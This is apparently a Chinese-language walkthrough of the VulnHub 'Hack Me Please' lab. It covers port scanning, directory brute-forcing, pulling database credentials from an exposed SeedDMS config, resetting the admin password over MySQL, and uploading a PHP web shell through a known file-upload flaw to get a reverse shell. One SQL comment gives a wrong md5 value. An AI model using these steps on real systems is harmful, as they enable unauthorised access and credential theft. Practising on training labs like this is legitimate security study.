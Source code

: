 # Hack Me Please

> https://download.vulnhub.com/hackmeplease/Hack_Me_Please.rar

靶场IP：`192.168.32.226`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.226                                                                                                                                                                                                                         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 04:54 EDT
Nmap scan report for 192.168.32.226
Host is up (0.0010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
3306/tcp  open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
33060/tcp open  mysqlx?

```

访问80端口服务

![image-20220911170000473](../../.gitbook/assets/image-20220911170000473.png)

爆破目录，没有发现任何有用的目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.32.226/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.226/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/11 05:01:50 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://192.168.32.226/img/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.32.226/css/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.32.226/js/] 
/fonts                (Status: 301) [Size: 316] [--> http://192.168.32.226/fonts/]
/server-status        (Status: 403) [Size: 279]                                   
                                                                                  
===============================================================
2022/09/11 05:02:07 Finished
===============================================================

```

在JS文件找到一个路径：`/seeddms51x/seeddms-5.1.22/`

![image-20220911170536079](../../.gitbook/assets/image-20220911170536079.png)

访问：`/seeddms51x/seeddms-5.1.22/`，发现是`SeedDMS`

![image-20220911170613195](../../.gitbook/assets/image-20220911170613195.png)

再次爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/rockyou.txt   -u http://192.168.32.226/seeddms51x/seeddms-5.1.22/ -edrf  -x php,html,cgi
```

使用 curl 下载文件并在其中寻找数据库配置

```sh
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.226/seeddms51x/conf/settings.xml -sL | grep -i db                                                     

       - dbDriver: DB-Driver used by adodb (see adodb-readme)
       - dbHostname: DB-Server
       - dbDatabase: database where the tables for seeddms are stored (optional - see adodb-readme)
       - dbUser: username for database-access
       - dbPass: password for database-access
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false">
       - extraPath: Path to addtional software. This is the directory containing additional software like the adodb directory, or the pear Log package. This path will be added to the php include path

```

使用上述步骤中的凭据登录 MySQL

```
mysql -u seeddms -pseeddms -D seeddms --silent -h 192.168.32.226
```

在那里，我发现了两个表，其中包含**用户**字符串 `users`和`tblUsers`. 由于我无法破解密码，所以我更新了管理员用户的密码

![image-20220911171430692](../../.gitbook/assets/image-20220911171430692.png)

使用**admin:test**凭据以管理员身份成功登录应用程序

```
-- md5("test") = d8e8fca2dc0f896fd7cb4cb0031ba249
UPDATE tblUsers set pwd='098f6bcd4621d373cade4e832627b4f6' where login='admin';
```

![image-20220911171901787](../../.gitbook/assets/image-20220911171901787.png)

在搜索漏洞利用时，我发现这个应用程序的当前版本容易被任意文件上传。这是一个好的开始，我可以上传我的 web shell 并获得反向 Meterpreter

> https://www.exploit-db.com/exploits/47022

首先，我们必须通过导航到"添加文档"菜单来上传 shell。接下来，我们必须浏览 PHP 文件并上传它。这会给我们一个空白页。但是，返回仪表板后，我们会看到一个文件已经上传。

![image-20220911172238333](../../.gitbook/assets/image-20220911172238333.png)

![image-20220911172349781](../../.gitbook/assets/image-20220911172349781.png)

访问反弹shell：`http://192.168.32.226/seeddms51x/data/1048576/4/1.php`

![image-20220911172639310](../../.gitbook/assets/image-20220911172639310.png)

查看密码文件

![image-20220911172705555](../../.gitbook/assets/image-20220911172705555.png)

我们已经从数据库中获得了`saket`用户的密码。

```
MySQL [seeddms]> select * from users;
Employee_id     Employee_first_name     Employee_last_name      Employee_passwd
1       saket   saurav  Saket@#$1337
```

![image-20230208145813634](../../.gitbook/assets/image-20230208145813634.png)
